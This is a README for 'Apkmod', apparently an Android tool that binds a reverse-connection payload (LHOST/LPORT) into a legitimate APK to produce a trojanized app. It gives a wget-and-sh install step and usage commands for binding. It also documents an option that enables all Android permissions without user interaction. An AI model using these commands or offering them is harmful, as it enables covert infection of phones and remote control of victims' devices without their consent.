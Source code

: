 # Apkmod v1.9
### Author : Lokesh @Hax4us

## _Steps For Installation_
1. First goto home directory `$ cd $HOME`
2. Get the setup script `$ wget https://raw.githubusercontent.com/Hax4us/Apkmod/master/setup.sh`
3. Execute the script `$ sh setup.sh`
4. Now you can execute command `$ apkmod`

## Usage :



1. For binding `$ apkmod -b /path/to/originalApp.apk -o /path/to/binded.apk LHOST=127.0.0.1 LPORT=4444`. It will bind payload with __originalApp.apk__ and saves final binded app to __binded.apk__.
2. Now you can use a optional option `-a` to use __aapt2__ for __binding__ and __recompiling__. Why aapt2 ? Because some apps can't recompile with __aapt__ but __aapt2__ can do it. But I can't drop __aapt__ support because some apps can't recompile with __aapt2__ so first recompile or bind without __aapt2__ ( `-a` ) then if you failed then try with __aapt2__. For example `apkmod -a -b /path/to/originalApp.apk -o /path/to/binded.apk LHOST=127.0.0.1 LPORT=4444`.
3. Use `-V` to enable verbose output
4. If only editing Java (smali) then this is the recommended action for faster decompile & rebuild `--no-res`
5. If you are only editing the resources. This is the recommended action for faster disassemble & assemble `--no-smali`
6. use `--frame-path` to specify framework directory like `--frame-path=/path/to/dir` 
7. Use `--enable-perm` to enable all android permissions in binded or non binded payloads without user interaction. For example :- `apkmod --enable-perm=/path/to/binded.apk -o mybinded.apk`







